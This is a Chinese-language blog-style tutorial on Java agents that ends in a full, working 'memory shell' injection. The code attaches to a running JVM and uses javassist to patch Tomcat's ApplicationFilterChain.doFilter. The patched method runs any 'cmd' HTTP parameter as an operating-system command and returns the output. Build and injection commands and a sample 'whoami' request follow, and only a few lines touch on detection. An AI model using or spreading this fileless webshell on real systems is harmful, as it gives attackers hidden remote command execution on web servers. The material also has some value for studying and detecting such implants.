

在JDK1.5以后，引入了  [java.lang.instrument](https://docs.oracle.com/javase/1.5.0/docs/api/java/lang/instrument/package-summary.html) 包，该包提供了检测 java 程序的 Api，比如用于监控、收集性能信息、诊断问题，通过 java.lang.instrument。 

在 Instrumentation 中增加了名叫 transformer 的 Class 文件转换器，转换器可以改变二进制流的数据

Transformer 可以对未加载的类进行拦截，同时可对已加载的类进行重新拦截，所以根据这个特性我们能够在不影响正常编译的情况实现动态修改字节码，已加载或者未加载的类，包括类的属性、方法。

https://xz.aliyun.com/t/9450#toc-5

Java Agent 支持两种方式进行加载：

	实现 premain 方法，在JVM init时进行加载 （该特性在 jdk 1.5 之后才有）
	
	实现 agentmain 方法，在JVM启动后进行加载 （该特性在 jdk 1.6 之后才有）


[What Are Java Agents and How to Profile With Them](https://stackify.com/what-are-java-agents-and-how-to-profile-with-them/)

优点：

	It’s meant to allow you to change code, altering its behavior, without actually having to edit its source code file.

启动函数：

In short, a Java agent is nothing more than a normal Java class. The difference is that it has to follow some specific conventions. The first convention has to do with the entry point for the agent. The entry point consists of a method called “premain”, with the following signature:

	public static void premain(String agentArgs, Instrumentation inst)

If the agent class doesn’t have the “premain” method with the signature above, it should have the following, alternative method:

	public static void premain(String agentArgs)

As soon as the JVM initializes, it calls the premain method of every agent. After that, it calls the main method of the Java application as usual.


**A java agent, in practice, is a special type of .jar file.**  As we’ve already mentioned, to create such an agent, we’ll have to use the Java Instrumentation API. 


## premain

新建一个项目 “agent”。


Hello.java

	public class Hello {
	    public static void main(String[] args) {
	        System.out.println("Hello,main method");
	    }
	}
	
hello.mf

	Manifest-Version: 1.0
	Main-Class: Hello


DemoTest


	import java.lang.instrument.Instrumentation;
	
	
	public class DemoTest {
	    public static void premain(String agentArgs, Instrumentation inst) throws Exception {
	        System.out.println(agentArgs);
	        for (int i = 0; i < 5; i++) {
	            System.out.println("premain method is invoked!");
	        }	      
	    }
	}

agent.mf

	Manifest-Version: 1.0
	Premain-Class: DemoTest


编译：

	javac Hello.java
	javac DemoTest.java

打jar包：

	jar cvfm hello.jar hello.mf Hello.class
	jar cvfm agent.jar agent.mf DemoTest.class

run（需要指定 javaagent参数，"="后面接传入的参数）

	java -javaagent:agent.jar=Hello -jar hello.jar


### 输出className

DemoTest

	import java.lang.instrument.ClassFileTransformer;
	import java.lang.instrument.IllegalClassFormatException;
	import java.lang.instrument.Instrumentation;
	import java.security.ProtectionDomain;
	
	public class DemoTest {
	    public static void premain(String agentArgs, Instrumentation inst) throws Exception {
	        System.out.println(agentArgs);
	        for (int i = 0; i < 5; i++) {
	            System.out.println("premain method is invoked!");
	        }
	        inst.addTransformer(new DefineTransformer(), true);
	    }
	
	    public static class DefineTransformer implements ClassFileTransformer {
	        @Override
	        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
	            System.out.println(className);
	            return new byte[0];
	        }
	    }
	}


重新编译执行:


报错了，原来是打jar包的时候有一个class没编译进去。

重新打jar包：

	jar cvfm agent.jar agent.mf DemoTest.class DemoTest$DefineTransformer.class


运行：

	java -javaagent:agent.jar=leeezp -jar hello.jar


又报错了，原来是要修改 DemoTest.java 的配置文件 agent.mf，```Can-Retransform-Classes: true```  /  ```Can-Redefine-Classes: true```
添加到 agent.mf 中（注意最后空一行）:

	Manifest-Version: 1.0
	Can-Retransform-Classes: true
	Premain-Class: DemoTest

运行成功：

	java -javaagent:agent.jar=leeezp -jar hello.jar


## agentmain

很多时候我们内存马注入的情况都是处于 JVM 已运行了的情况，所以上面的方法就不是很有用，不过在 jdk 1.6 中实现了attach-on-demand（按需附着），我们可以使用 Attach API 动态加载 agent ，然而  Attach API  在 tool.jar 中，jvm 启动时是默认不加载该依赖的，需要我们在 classpath 中额外进行指定。


AgentMain.java

	import java.lang.instrument.ClassFileTransformer;
	import java.lang.instrument.IllegalClassFormatException;
	import java.lang.instrument.Instrumentation;
	import java.security.ProtectionDomain;
	
	public class AgentMain {
	    public static void agentmain(String agentArgs, Instrumentation ins) {
	        ins.addTransformer(new DefineTransformer(),true);
	    }
	    public static class DefineTransformer implements ClassFileTransformer {
	        @Override
	        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
	            System.out.println(className);
	            return new byte[0];
	        }
	    }
	}

agentmain.mf

	Manifest-Version: 1.0
	Can-Retransform-Classes: true
	Agent-Class: AgentMain

编译打包

	javac AgentMain.java
	jar cvfm AgentMain.jar agentmain.mf AgentMain.class AgentMain$DefineTransformer.class

至此我们的 AgentMain.jar 就成功生成了。

编写测试类 AgentMainDemo.java：

	import com.sun.tools.attach.*;
	import java.io.IOException;
	import java.util.List;
	
	public class AgentMainDemo {
	    public static void main(String[] args) throws IOException, AttachNotSupportedException, AgentLoadException, AgentInitializationException {
	        String path = "./AgentMain.jar";
	        List<VirtualMachineDescriptor> list = VirtualMachine.list();
	        for (VirtualMachineDescriptor v : list) {
	            System.out.println(v.displayName());
	            if (v.displayName().contains("AgentMainDemo")) {
	                // 将 jvm 虚拟机的 pid 号传入 attach 来进行远程连接
	                System.out.println(v.id());
	                VirtualMachine vm = VirtualMachine.attach(v.id());
	                System.out.println(vm);
	                // 将我们的 agent.jar 发送给虚拟机
	                vm.loadAgent(path);
	                vm.detach();
	            }
	        }
	    }
	}

直接run AgentMainDemo.java：

报了个奇怪的错：

```java.lang.UnsatisfiedLinkError: sun.tools.attach.LinuxVirtualMachine.isLinuxThreads()Z```

原来是我的tools.jar 只有 LinuxAttachProvider


原因是我在windows机器上运行了linux版本的tools.jar。

换个windows版本的：


重新运行AgentMainDemo.java，又报错：

```Error opening zip file or JAR manifest missing: ./AgentMain.jar```

修改AgentMainDemo.java相对路径为绝对路径：


	import com.sun.tools.attach.*;	
	import java.io.IOException;
	import java.util.List;
	
	public class AgentMainDemo {
	    public static void main(String[] args) throws IOException, AttachNotSupportedException, AgentLoadException, AgentInitializationException {
	        String path = "C:\\Users\\Administrator\\Desktop\\Java-Shellcode-Loader-master\\untitled5\\src\\AgentMain.jar";  // 相对路径报错
	        List<VirtualMachineDescriptor> list = VirtualMachine.list();
	        for (VirtualMachineDescriptor v : list) {
	            System.out.println(v.displayName());
	            if (v.displayName().contains("AgentMainDemo")) {
	                // 将 jvm 虚拟机的 pid 号传入 attach 来进行远程连接
	                System.out.println(v.id());
	                VirtualMachine vm = VirtualMachine.attach(v.id());
	                System.out.println(vm);
	                // 将我们的 agent.jar 发送给虚拟机
	                vm.loadAgent(path);
	                vm.detach();
	            }
	        }
	    }
	}

再次运行：



java/lang/instrument/ClassFileTransformer.java类的transform方法，要么返回新的class字节码，要么返回null

我修改了 AgentMain.java，将```return new byte[0]```改成```return null```不报```java/lang/IndexOutOfBoundsException```错误了：

	import java.lang.instrument.ClassFileTransformer;
	import java.lang.instrument.IllegalClassFormatException;
	import java.lang.instrument.Instrumentation;
	import java.security.ProtectionDomain;
	
	public class AgentMain {
	    public static void agentmain(String agentArgs, Instrumentation ins) {
	        ins.addTransformer(new DefineTransformer(),true);
	    }
	    public static class DefineTransformer implements ClassFileTransformer {
	        @Override
	        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
	            System.out.println(className);
	            //return new byte[0];
	            return null;
	        }
	    }
	}


在实际使用中，因为tools.jar 并不会在 JVM 启动的时候默认加载，所以这里利用 URLClassloader 来加载我们的 tools.jar

所以呢我又修改了代码 TestAgentMain.java:

	import java.io.File;
	
	public class TestAgentMain {
	    public static void main(String[] args) {
	        try {
	            System.out.println(System.getProperty("java.home")); //E:\jdk1.8\jre
	            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre", "lib") + File.separator + "tools.jar");
	            //System.out.println(toolsPath);//E:\jdk1.8\lib\tools.jar
	            //System.out.println(toolsPath.toURI().toURL().getClass()); //java.net.URL
	            java.net.URL url = toolsPath.toURI().toURL(); //file:/E:/jdk1.8/lib/tools.jar
	            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
	
	            Class<?> MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
	            Class<?> MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
	            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list", null);
	            java.util.List<Object> list = (java.util.List<Object>) listMethod.invoke(MyVirtualMachine, null);
	            System.out.println("Running JVM Start..");
	            System.out.println(list.size());
	            for (int i = 0; i < list.size(); i++) {
	                Object o = list.get(i);
	                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName", null);
	                String name = (String) displayName.invoke(o, null);
	                if (name.contains("com.example.demo.DemoApplication")) {
	                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id", null);
	                    String id = (String) getId.invoke(o, null);
	                    System.out.println(id);
	                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach", new Class[]{java.lang.String.class});
	                    //System.out.println(attach);
	                    java.lang.Object vm = attach.invoke(o, new Object[]{id});
	                    System.out.println(vm);
	                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent", new Class[]{java.lang.String.class});
	                    java.lang.String path = "C:\\Users\\Administrator\\Desktop\\Java-Shellcode-Loader-master\\untitled5\\src\\AgentMain.jar";
	                    System.out.println("------------");
	                    loadAgent.invoke(vm, new Object[]{path});
	                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach", null);
	                    detach.invoke(vm, null);
	                    break;
	                }
	            }
	        } catch (Exception e) {
	            e.printStackTrace();
	        }
	    }
	}


其中这一行 ```if (name.contains("com.example.demo.DemoApplication")) {``` 要根据实际你要注入的进程名替换。

## 内存马注入

由于实际环境中我们通常遇到的都是已经启动着的，所以 premain 那种方法不合适内存马注入，所以我们这里利用 agentmain 方法来尝试注入我们的内存马

利用 insertBefore ，将其插入到前面，从而减少对原程序的功能破坏：

AgentMain.java

	import javassist.*;	
	import java.lang.instrument.ClassFileTransformer;
	import java.lang.instrument.IllegalClassFormatException;
	import java.lang.instrument.Instrumentation;
	import java.security.ProtectionDomain;
	
	
	public class AgentMain {
	    /*
	    public static void premain(String agentArgs, Instrumentation inst) {
	        agentmain(agentArgs, inst);
	    }
	    */
	
	    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";
	
	    public static void agentmain(String agentArgs, Instrumentation ins) {
	        ins.addTransformer(new DefineTransformer(), true);
	        Class[] classes = ins.getAllLoadedClasses();
	        for (Class clas : classes) {
	            if (clas.getName().equals(ClassName)) {
	                try {
	                    ins.retransformClasses(new Class[]{clas});    //retransformClasses
	                } catch (Exception e) {
	                    e.printStackTrace();
	                }
	            }
	        }
	    }
	
	    public static class DefineTransformer implements ClassFileTransformer {
	        @Override
	        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
	            className = className.replace("/", ".");
	            if (className.equals(ClassName)) {
	                System.out.println("Find the Inject Class: " + ClassName);
	                ClassPool pool = ClassPool.getDefault();
	                try {
	                    CtClass c = pool.getCtClass(className);
	                    CtMethod m = c.getDeclaredMethod("doFilter");
	                    // 如果服务端没有 javassist.jar 会是NULL 不会打印值
	                    //System.out.println(c); // for debug // print : javassist.CtClassType@697a3904[public final class org.apache.catalina.core.ApplicationFilterChain implements javax.servlet.FilterChain...
	                    //System.out.println(m); // for debug // print : javassist.CtMethod@8fc543ac[public doFilter (Ljavax/servlet/ServletRequest;Ljavax/servlet/ServletResponse;)V]
	
	                    m.insertBefore("javax.servlet.http.HttpServletRequest req =  request;\n" +
	                            "javax.servlet.http.HttpServletResponse res = response;\n" +
	                            "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
	                            "if (cmd != null){\n" +
	                            "java.io.InputStream in = null;\n" +
	                            "java.lang.String osname = java.lang.System.getProperty(\"os.name\").toLowerCase();\n" +
	                            "if (osname.contains(\"win\")) {" +
	                            "    try {\n" +
	                            "         in = Runtime.getRuntime().exec(new String[]{\"cmd\", \"/c\", cmd}).getInputStream();\n" +
	                            "    }catch (Exception e){}\n" +
	                            "} else {\n" +
	                            "    try {\n" +
	                            "        in = Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd}).getInputStream();\n" +
	                            "    }catch (Exception e){}\n" +
	                            "}\n" +
	                            "java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
	                            "try {\n" +
	                            // 方法一： 完美!!! 通过close() 使输出一遍
	                            "java.lang.String line;\n" +
	                            "java.io.PrintWriter writer = res.getWriter();\n" +
	                            "while ((line = reader.readLine()) != null) {\n" +
	                            "writer.write(line+\"\\r\\n\");}\n" +
	                            "writer.flush();\n" +
	                            "writer.close();\n" +  // 输出流关闭操作放到循环外层
	
	                            /*
	                             方法二：
	                             会输出5遍，具体原因可能与 ApplicationFilterChain 默认的几条链有关，没做深入研究...
	                            //"java.io.PrintWriter writer=res.getWriter();\n" +
	                            //"writer.print(reader.lines().collect(java.util.stream.Collectors.joining(\"\\n\")));\n" +
	                             */
	
	                            /*
	                            方法三：
	                            sevlet里面可以，在agent.jar里注入这种写法不行，原因未知
	                            //"java.io.PrintWriter writer=res.getWriter();\n" +
	                            //"writer.write(reader.lines().collect(java.util.stream.Collectors.joining(\"\\n\")));\n" +   //writer.write() 报错,  javassist.CannotCompileException: [source error] write(java.lang.Object) not found in java.io.PrintWriter
	                             */
	
	                            /*
	                            方法四：
	                            兼容性不好，中文不友好  java.io.CharConversionException: Not an ISO 8859-1 character: [�]
	                            //"((java.io.PrintWriter)res.getWriter()).write(reader.lines().collect(java.util.stream.Collectors.joining(\"\\n\")));\n" +
	                            //"res.getOutputStream().print(reader.lines().collect(java.util.stream.Collectors.joining(\"\\n\")).toString());\n" +   // javassist.CannotCompileException: [source error] print(java.lang.Object) not found in javax.servlet.ServletOutputStream
	                            //"res.getOutputStream().flush();\n" +
	                            //"res.getOutputStream().close();\n" +
	
	                             */
	                            "} catch (java.io.IOException e2) {\n" +
	                            "   e2.printStackTrace();\n" +
	                            "    }\n" +
	                            "}");
	
	                    byte[] bytes = c.toBytecode();
	                    c.detach();
	                    return bytes;
	                } catch (Exception e) {
	                    e.printStackTrace();
	                }
	            }
	            return new byte[0];
	        }
	    }
	}

编译打jar包：

	javac -encoding utf-8 -classpath ./javassist-3.28.0-GA.jar AgentMain.java
	jar cvfm AgentMain.jar agentmain.mf AgentMain.class AgentMain$DefineTransformer.class


编译并执行测试程序：

	javac -encoding utf-8 ./TestAgentMain.java
	java TestAgentMain


## 利用条件

1.需要先获取jvm进程名，然后选择要注入的进程

2.服务端环境需要导入 javassist.jar 

## 检测点

1.服务器日志异常，普通的hacker 虽然可以执行命令，但是因为代码不完善或操作失误会引起服务器日志抛出异常，成为一个溯源点。

2.检测内存里的class类名

3....

## 后记

agent内存马本质是进程注入，把agent.jar 注入 filter/servlet/listener内存马。

### 一些调试记录

1.服务器报错：


这个报错是在方法四调试中出现的，很奇怪，在servlet中调试可以执行代码，在agentmain注入就不可以，后来加了toSting()勉强可以用，但中文支持不友好，不清楚原因。


2.最初调试是使用```writer.print()```，没有使用 ```close()```，导致每种结果打印了5遍。部分调试截图如下：

靶站使用Springboot项目，访问demo页面(public String demo)，仅访问demo页面服务器日志报错 


访问一个不存在页面：


访问一个已存在页面(public void Filter2)：


直接访问：


3.java.lang.IllegalStateException: Cannot call sendError() after the response has been committed
上面这个报错 是 close()后还有输出语句输出流导致的，**把输出流挪到循环外面就可以了**

4.windows下注意，多个参数 & 要转义，否则会被当做参数连接符号

```cmd=whoami%26dir```  

5.Springboot添加servlet不一定要向这样[springboot使用servlet](https://blog.csdn.net/weixin_44895829/article/details/123083201)，如果项目不大，也可以直接在DemoApplication里新增，如下图，非常方便简洁。


## reference

https://www.yuque.com/tianxiadamutou/zcfd4v/tdvszq

[javassist介绍](https://www.cnblogs.com/duanxz/p/15664140.html)